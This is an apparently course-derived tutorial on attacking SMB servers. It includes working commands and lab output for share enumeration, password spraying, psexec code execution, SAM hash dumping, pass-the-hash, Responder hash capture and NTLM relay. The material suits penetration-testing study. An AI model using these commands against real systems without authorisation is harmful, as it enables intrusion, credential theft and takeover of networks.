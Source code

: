 # Attacking SMB

Here’s the English explanation of the provided text about attacking the **Server Message Block (SMB)** protocol, broken down step-by-step in a detailed yet simple way:

***

#### What is SMB?

* **SMB** (Server Message Block) is a protocol that lets devices on a network share files and printers.
* Originally, it worked over **NetBIOS** using TCP port 139 and UDP ports 137/138. Now, modern Windows systems run it directly over TCP on port **445** without NetBIOS.
* If NetBIOS is enabled or you’re targeting a non-Windows system, you’ll see SMB on port 139.
* **Samba** is an open-source version of SMB for Linux/Unix, letting them work with Windows systems.

In short, SMB is like a bridge for sharing stuff between devices, running on port 445 or 139 depending on the setup.

***

#### How to Attack SMB?

To attack an SMB server, you need to know how it’s set up, what operating system it’s on (Windows or Linux), and which tools to use. Like other services, you can exploit:

1. **Misconfigurations**: Like if it’s open without a password.
2. **Known Vulnerabilities**: If there’s a flaw in its version.
3. **New Vulnerabilities**: If you discover something new.

Once you get in, check the shared folders (shares) for useful files. If targeting NetBIOS or RPC (Remote Procedure Call), figure out what info you can grab or what actions you can take.

***

#### Step 1: Enumeration (Gathering Info)

We use a tool like **Nmap** to see what’s running on the server. SMB uses ports 139 and 445, so we scan those:

```bash
sudo nmap 10.129.14.128 -sV -sC -p139,445
```

**Example Output:**

* Ports 139 and 445 are open.
* Version: Samba 4.6.2 (means it’s Linux, not Windows).
* Hostname: HTB.
* OS: Linux (since it’s using Samba).

Now we know the server runs Samba (Linux SMB), and we can plan our attack.

***

#### Exploiting Misconfigurations

Sometimes SMB is set up to allow access without a username or password, called a **Null Session**.

#### 1. Anonymous Authentication (Login Without Credentials)

If the server allows this, you can grab info like:

* List of shared folders (shares).
* Usernames.
* Permissions.

#### Tools to Use:

*   **smbclient**: Lists shared folders There’s a "notes" folder we can explore.

    ```bash
    smbclient -N -L //10.129.14.128
    ```

    * N: No password (Null Session).
    *   L: List shares. **Example Output:**

        ```bash
        Sharename    Type    Comment
        ADMIN$       Disk    Remote Admin
        C$           Disk    Default share
        notes        Disk    CheckIT
        IPC$         IPC     IPC Service
        ```
*   **smbmap**: Shows permissions for each share: **Example Output:** "notes" has read/write access, so we can download or upload files.

    ```bash
    smbmap -H 10.129.14.128
    ```

    ```bash
    Disk         Permissions    Comment
    ADMIN$       NO ACCESS      Remote Admin
    C$           NO ACCESS      Default share
    IPC$         READ ONLY      IPC Service
    notes        READ, WRITE    CheckIT
    ```

#### Downloading and Uploading Files:

*   Download a file:

    ```bash
    smbmap -H 10.129.14.128 --download "notes\\note.txt"
    ```

    * Downloads note.txt from the "notes" folder.
*   Upload a file:

    ```bash
    smbmap -H 10.129.14.128 --upload test.txt "notes\\test.txt"
    ```

    * Uploads test.txt to the "notes" folder.

#### 2. Remote Procedure Call (RPC)

To get more info like usernames, use **rpcclient**:

```bash
rpcclient -U'%' 10.10.110.17
```

*   U'%': Null Session (no credentials). **Inside the Tool:**

    ```bash
    rpcclient $> enumdomusers
    user:[mhope] rid:[0x641]
    user:[svc-ata] rid:[0xa2b]
    ```

This lists users on the server.

*   **enum4linux**: Automates gathering all this info: It pulls users, shares, OS details, etc.

    ```bash
    ./enum4linux-ng.py 10.10.11.45 -A -C
    ```

***

#### Protocol-Specific Attacks

If Null Session isn’t available, you’ll need credentials. Two common methods:

1. **Brute Force**: Try tons of passwords on one user, but it might lock the account.
2. **Password Spraying**: Try one password on many users to avoid lockouts.

#### Using CrackMapExec (CME):

```bash
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```

* u: File with users (e.g., Administrator, admin, jrodriguez).
*   p: One password (e.g., Company01!). **Example Output:**

    ```bash
    SMB  10.10.110.17 445  WIN7BOX  [-] WIN7BOX\\Administrator:Company01! STATUS_LOGON_FAILURE 
    SMB  10.10.110.17 445  WIN7BOX  [+] WIN7BOX\\jurena:Company01! (Pwn3d!)
    ```

Found that jurena uses Company01!.

***

#### Attacks on Windows

If it’s a Windows server and you have admin rights, you can do more:

#### 1. Remote Code Execution (RCE)

*   **With impacket-psexec**: Gives you a command shell:

    ```bash
    impacket-psexec administrator:'Password123!'@10.10.110.17
    ```

    ```bash
    C:\\Windows\\system32> whoami
    nt authority\\system
    ```
*   **With CrackMapExec**: Runs the command and returns nt authority\system.

    ```bash
    crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami'
    ```

#### 2. List Logged-On Users

```bash
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

Shows who’s logged in across the network.

#### 3. Extract Hashes from SAM

*   The **SAM** (Security Account Manager) is a database with user password hashes. **Output:**

    ```bash
    crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
    ```

    ```bash
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
    jurena:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
    ```

#### 4. Pass-the-Hash (PtH)

If you have a hash (e.g., 2b576acbe6bcfda7294d6bd18041b8fe), use it without cracking:

```bash
crackmapexec smb 10.10.110.17 -u Administrator -H 2b576acbe6bcfda7294d6bd18041b8fe
```

Logs you in as admin using the hash.

***

#### Forced Authentication Attacks (Stealing Hashes)

You can set up a fake SMB server with **Responder** to steal user hashes:

```bash
sudo responder -I ens33
```

*   If someone mistypes a share (e.g., \\\mysharefoder instead of \\\mysharedfolder), Responder tricks them and grabs their hash:

    ```bash
    [SMB] NTLMv2-SSP Username : WIN7BOX\\demouser
    [SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:997b18cc61099ba2:3CC46296B0CCFC7A231D918AE1DAE521:..
    ```

#### Cracking the Hash:

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

If successful, it might reveal a password like P@ssword.

#### Relaying the Hash:

If you can’t crack it, relay it to another machine with **impacket-ntlmrelayx**:

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```

This can dump the SAM or run commands if you add -c.

***

#### Summary

You can attack SMB in several ways:

* If it’s open without a password, check shares and grab/upload files.
* If locked, use Password Spraying or hashes.
* On Windows, run commands or extract hashes.
* To steal hashes, use Responder.
